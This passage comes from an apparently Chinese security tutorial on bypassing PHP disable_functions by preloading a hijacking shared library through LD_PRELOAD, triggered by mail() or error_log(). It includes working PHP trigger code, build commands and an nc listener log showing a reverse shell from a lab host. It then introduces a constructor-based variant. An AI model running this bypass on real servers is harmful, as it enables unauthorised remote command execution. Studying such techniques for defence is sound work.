 ```
[root@vuln html]# touch hook_getuid.so
[root@vuln html]# rm hook_getuid.so
[root@vuln html]# touch hook_getuid.c
[root@vuln html]# vim hook_getuid.c
[root@vuln html]# gcc -shared -fPIC hook_getuid.c -o hook_getuid.so
```

然后在 PHP 环境下劫持系统函数 getuid 就行了，代码如下：

```php
<?php
    putenv("LD_PRELOAD=/var/www/html/hook_getuid.so");
    mail("a","b","","c","d");
?>
```

访问触发

```
[shadowflow@ShadowOS /tmp]$ curl http://172.16.42.151/mail.php
```

收到shell

```
[root@debian ~]# nc -lvvp 4444
listening on [any] 4444 ...
172.16.42.151: inverse host lookup failed: Unknown host
connect to [172.16.42.150] from (UNKNOWN) [172.16.42.151] 41994
bash: cannot set terminal process group (16416): Inappropriate ioctl for device
bash: no job control in this shell
www-data@vuln:/var/www/html$
```



**error_log()**

`error_log` 与 `mail` 函数的原理一样，都会启动一个新的系统进程 `/usr/sbin/sendmail`：

```
<?php
putenv("LD_PRELOAD=/var/tmp/hook_getuid.so");    // 注意这里的目录要有访问权限
error_log("", 1, "", "");
?>
```

不再赘述。



### 5.4 利用 LD_PRELOAD 劫持系统新进程来绕过

在真实环境中，存在两方面问题：一是，某些环境中，web 禁止启用 senmail、甚至系统上根本未安装 sendmail，也就谈不上劫持 getuid()，通常的 www-data 权限又不可能去更改 php.ini 配置、去安装 sendmail 软件；二是，即便目标可以启用 sendmail，由于未将主机名（hostname 输出）添加进 hosts 中，导致每次运行 sendmail 都要耗时半分钟等待域名解析超时返回，www-data 也无法将主机名加入 hosts（如，127.0.0.1   lamp、lamp.、lamp.com）。基于这两个原因，我不得不放弃劫持函数 getuid()，必须找个更普适的方法。回到 LD_PRELOAD 本身，系统通过它预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那我就完全可以不依赖 sendmail 了。这种场景与 C++ 的构造函数简直神似！几经搜索后了解到，GCC 有个 C 语言扩展修饰符 __attribute__((constructor))，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 __attribute__((constructor)) 修饰的函数。
